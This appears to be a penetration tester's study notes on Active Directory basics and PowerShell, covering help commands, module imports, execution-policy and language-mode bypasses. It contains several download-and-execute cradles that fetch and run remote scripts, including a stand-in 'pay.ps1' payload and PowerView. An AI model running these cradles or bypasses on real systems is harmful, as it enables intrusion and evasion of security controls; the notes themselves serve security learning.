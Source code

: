 # AD - Basics & PowerShell Basics

## AD Basics

* Components of AD
  * Shema - Defines objects and their attributes
  * Query and index mechanisem
  * Global catalog - Information about every object
  * Replication service - Distributes information accross domain controllers
* A forest - which is a security boundary - may contain multiple domains and each domain may contain multiple Ous

### How to interact with Active Directory

* \[ADSI]
* .NET Classes (System.DirectoryServices.ActiveDirectoryy)
* Native Executables (like net….)
* PowerShell (.NET classes and WMI)

## Powershell Basics

With PowerShell Scripts you can use cmdlets, native commands, functions, .net, dlls, Windows API

### Help Command

Get-Help \* - Lists everything abtout the help topic

Get-Help process (lists everything which contains the word process)

Update-Help - Update the healp system (v3+)

Get-help cmdlet\_name -Full - List full help about a topic

Get-Help cmdlet\_name -Examples

Get-command -CommandType cmdlet - List all cmdlets



**Use this parameter to not print errors powershell**\
****-ErrorAction SilentlyContinue

**Rename powershell windows**\
****$host.ui.RawUI.WindowTitle = "name"\
****&#x20;

### Execution Policy

It is NOT a security boundary

Powershell -exectionpolicy bypass\
powershell -ep bypass\
Powershell -c \<cmd>\
Powersehll -encodedcommand $env:PSExecutionPolicyPreference="bypass"

### Language Mode

**Display current language mode**\
$executioncontext.sessionstate.languagemode

Constrained Language mode is the restriction of types which are not safe/disallowed in constrained language mode. E.g. .Net Classes,\
Only Built-In Commandlets can be used and types/classes etc. are restricted\
Can be configured via AppLoker or Windows Defender Application Mode in Enforcement mode.

Constrained language mode is only for Powershellv5.1, v7 - if attacker can run Powershellv2 no language mode enforcement is possible.

****

### Execute .PS1 File / PowerView

. .\PowerView.ps1

iex(iwr https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1 -UseBasicParsing)

### Execute AD Module

Download [https://github.com/samratashok/ADModule](https://github.com/samratashok/ADModule)

Import-Module .\Microsoft.ActiveDirectory.Management.dll -Verbose\
Import-Module .\ActiveDirectory\ActiveDirectory.psd1

{% hint style="info" %}
Most of the AD Modules have the -Filter -Properties and -Identity options!

Get-AD-User -Filter \* -Properties \*\
Get-AD-User -Identity username1 -Properties \*
{% endhint %}

\
iex (new-Object Net.WebClient).DownloadString('[https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory](https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1'\);Import-ActiveDirectory)

To be able to list all the cmdlets in the module, import the module as well. Remember to import the DLL first.\
Import-Module C:\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose\
Import-Module C:\AD\Tools\ADModule\ActiveDirectory\ActiveDirectory.psd1\
Get-Command -Module ActiveDirectory

### Module

**Import a module/file**\
Import-Module \<modulepath>

**List all commands of a module**\
Get-Command -Module \<modulename>

**Display Loaded functions**\
ls function:

### Download and execute PowerShell Scripts

iex (New-Object Net.WebClient).DownloadString('https://webserver/pay.ps1') - Invoke Expression (iex alias)

&#x20;**Use a COM Object**

$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('https://webserver/pay.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

**PSv3 or newer**

Iex (iwr '[http://websever/ps.ps1](http://websever/ps.ps1)') -iwr is alias for invoke-web request

&#x20;$h=New-Object -ComObject\
Msxml2.xmlhttp;$h.open('GET','http://webserver/ps.ps1',$fasle);$h.send();iex $h.responseText

&#x20;$wr = \[System.NET.WebRequest]::Create("http://werbser.ps.ps1")\
$r = $wr.GetResponse()\
IEX (\[System.IO.StreamReader]\($r.GetResponseStream())).ReadToEnd()

&#x20;







